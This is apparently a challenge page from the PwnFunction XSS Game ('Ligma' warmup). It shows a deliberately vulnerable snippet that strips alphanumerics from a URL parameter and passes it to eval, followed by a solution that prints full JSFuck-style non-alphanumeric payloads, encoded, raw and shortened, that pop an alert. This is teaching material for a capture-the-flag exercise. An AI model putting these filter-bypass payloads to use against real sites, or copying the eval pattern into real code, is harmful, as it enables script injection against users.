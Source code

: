 ```yaml
---
title: "XSS Game - Ligma | PwnFunction"
header: "Ligma"
challengeUrl: "https://sandbox.pwnfunction.com/warmups/ligma.html"
date: 2020-01-19T18:21:39+05:30
draft: false
type: warmup
difficulty: Easy
---
```


{{< rules >}}
<li>Difficulty is <b>Easy</b>.</li>
<li>Pop an <code>alert(1337)</code> on <code>sandbox.pwnfunction.com</code>.</li>
<li>No user interaction.</li>
<li>Cannot use <code>https://sandbox.pwnfunction.com/?html=&js=&css=</code>.</li>
<li>Tested on <b>Chrome</b>.</li>
{{</ rules >}}

{{< code >}}<code class="language-js">/* Challenge */
balls = (new URL(location).searchParams.get('balls') || "Ninja has Ligma")
balls = balls.replace(/[A-Za-z0-9]/g, '')
eval(balls)</code>{{< /code >}}

{{< solution >}}
<p>The GET parameter <code>balls</code> ends up in <code>eval</code>, but the problem is that it
                        replaces all alphanumeric characters with an empty string like the following.
                        <pre
                            class="solution-code-block"><code class="language-js">balls = balls.replace(/[A-Za-z0-9]/g, '')</code></pre>
                        So we can use something like <a href="http://www.jsfuck.com/"><b>JSFuck</b></a>, which converts
                        your
                        javascript code into valid non-alphanumeric esoteric javascript.
                    </p>

                    <pre class="solution-code-block"><code class="language-js">/* URL Encoded */
"%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D%5B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(%5B%5D%5B%5B%5D%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D((!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%5B%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D%5B(!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(%5B!%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D)%5B%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B(!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B!%2B%5B%5D%5D%2B(!!%5B%5D%2B%5B%5D)%5B%2B!%2B%5B%5D%5D%5D)%5B!%2B%5B%5D%2B!%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D)()"
                            
/* No Encoding */
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</code></pre>
                    <p>Here's a shorter one</p>
                    <pre
                        class="solution-code-block"><code class="language-js">/* Shorter */
ᵥ=[];ᵤ=-~ᵥ;ᵞ=-~-~ᵤ;ᵠ=ᵥ+{};ᵨ=-~-~ᵞ;ᵅ=ᵠ[ᵨ];ᵈ=ᵠ[ᵤ];ᵡ=!!ᵥ+ᵥ;ᵜ=ᵡ[ᵤ+~ᵥ];ᵝ=ᵡ[ᵤ];ᵢ=!ᵥ+ᵥ;ᵣ=ᵥ[~ᵥ]+ᵥ;ᵥ[_=ᵅ+ᵈ+ᵣ[ᵤ]+ᵢ[ᵞ]+ᵜ+ᵝ+ᵣ[ᵤ+~ᵥ]+ᵅ+ᵜ+ᵈ+ᵝ][_](ᵢ[ᵤ]+ᵢ[-~ᵤ]+ᵢ[-~ᵞ]+ᵝ+ᵜ+`(${ᵤ+''+ᵞ+ᵞ+-~-~ᵨ})`)()</code></pre>
{{< /solution >}}
